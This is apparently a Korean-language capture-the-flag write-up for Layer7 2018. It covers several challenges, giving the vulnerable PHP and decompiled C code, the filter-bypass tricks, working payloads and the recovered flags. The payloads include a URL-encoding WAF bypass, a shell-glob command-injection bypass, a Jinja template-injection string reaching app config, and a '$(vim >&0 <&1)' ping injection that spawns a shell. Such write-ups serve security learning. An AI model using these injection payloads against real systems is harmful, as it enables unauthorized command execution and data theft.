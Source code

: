 ```yaml
---
title: Layer7 2018 Writeup
updated: 2018-09-21 13:41
---
```


__url routing__

```php
<?php 
    error_reporting(0); 
    require __DIR__."/secret.php"; // flag is here 

    # waf 
    $url_query = parse_url($_SERVER['REQUEST_URI'], PHP_URL_QUERY); 
    if(stripos($url_query, 'flag') !== false){ 
        die('no hack'); 
    } 

    # routes 
    if(isset($_GET['author'])){ 
        die('safflower'); 

    }else if(isset($_GET['flag'])){ 
        die($flag); 
         
    }else{ 
        highlight_file(__FILE__); 
        die; 
         
    }
```



코드는 GET으로 받는 flag파라미터가 있으면 된다

parse_url 에서 url_encoding 된것은 처리를 안해준다는 것을 이용하면 된다

<http://dm1536803965686.fun25.co.kr:23902/5099d288498b4e17/?%66%6c%61%67>

FLAG : LAYER7{4f3a6c9f4b9c36ed3c39b8d3e14aa4fb}





__meow__

```php
<?php 
    require __DIR__.'/flag.php'; 

    if(isset($_GET['file'])){ 
        if(preg_match('/flag|\'|\"|`|\\\\|;|\(|\)|\*|\?|\.\.|\//i', $_GET['file'])){ 
            die('no hack'); 
        } 
        system('cat "'.$_GET['file'].'"'); 

    }else{ 
        header('Location: ?file=test.txt'); 

    } 

    echo '<hr>'; 
    highlight_file(__FILE__);

```



GET으로 받는 flag 파라미터에 출력하고 싶은 파일을 넣어주면 된다

flag.php 를 적절히 우회해서 넣어주면 된다

A$@B == AB 라는 걸 이용해서

fl@ag.php = flag.php

[http://dm1536803965686.fun25.co.kr:23903/74cdf2ead84d1743/?file=fl$@ag.php

FLAG : LAYER7{070e260558a03c1494817459ebbc060e}



__msg__

[http://dm1536803965686.fun25.co.kr:23908/?msg=원하는_내용](http://dm1536803965686.fun25.co.kr:23908/?msg=원하는_내용)

GET으로 받는 msg 파라미터의 내용을 그대로 출력 해준다. 

난 이 문제와 비슷한 유형을 Tokyowesterns CTF 2018 에서 봤고 이름은 jinja tempelete injection 이다.



문자열 필터링으로는 config , app , () , .. 등등 막혀있다

난 플래그가 config에 있을 것으로 보고 적절히 우회해서 풀었다.

get_flashed_messages.\_\_globals__\[‘current_ap’’p’][‘con’’fig’]

FLAG : LAYER7{e276a535acdda862e3f76e5deec26373}





__Sanity Check__

FLAG : LAYER7{1_h0pE_Y0u_eNj0y_p14yiNg!}



__Shell program , revenge__

unintended solution으로 풀었기 때문에 두 문제다 같은 페이로드로 풀 수 있었다.

우리는 2 번 ping을 이용해서 쉘을 딸 수 있다



```C
 v3 = 'gnip';
  v4 = '" ';
  v5 = 0;
  v0 = strlen((const char *)&v3);
  strcpy((char *)&v3 + v0, s);
  *(_WORD *)((char *)&v3 + strlen((const char *)&v3)) = 34;
  printf("your command => %s\n", &v3, v2);
  system((const char *)&v3);
```

ping ‘v3(input)’ 이 들어간다

난 vim에서 esc + : + ! + command 하면 command가 실행 되는걸 이용했다.



메뉴에서 ping을 선택해 $(vim >&0 <&1) 을 보내고

vim에 들어가 esc + : +! + /bin/sh 로 쉘을 땃다.

두 문제다 이렇게 풀린다.



FLAG : LAYER7{Wha4AAa4t_d03$_th1$_ch4r4ct3r_r3tuuuuurn?_$$$}

REVENGE_FLAG : LAYER7{w0W…H0w_t0_th1s_Fuck11111111ng_fi1t3r1ng_by-p4ss!!!!!!!!!???}

_(원래는 한문제 더 있었는데 출제오류로 없어졌지만 페이로드는 $(\tvim >&0 <&1) 였다...)_

![shellprogram_revenge_1](../img/2018-09-21-Layer-7-2018-writeup/shellprogram_revenge_1.png)

